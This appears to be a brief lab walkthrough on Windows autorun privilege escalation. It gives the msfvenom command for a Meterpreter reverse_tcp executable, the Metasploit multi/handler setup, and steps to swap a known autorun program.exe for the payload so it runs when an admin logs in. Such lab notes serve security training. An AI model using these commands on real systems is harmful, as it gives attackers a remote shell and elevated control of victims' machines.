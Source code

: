 create a msfvenom payload  using command
`msfvenom -p windows/meterpreter/reverse_tcp lhost=IP -f exe -o program.exe`
be sure to check the executable and name our exploit same as payload name 

by default lport is set to 4444


open metasploit in kali 
1) use /exploit/multi/handler 
2) set payload windows/meterpreter/reverse_tcp 
3) set option 



as we knew  the path of program.exe from enumeration  start the web server go the location from GUI replace the current file with our file don

login as admin and done
![[autorun-4-meterpreter.png]]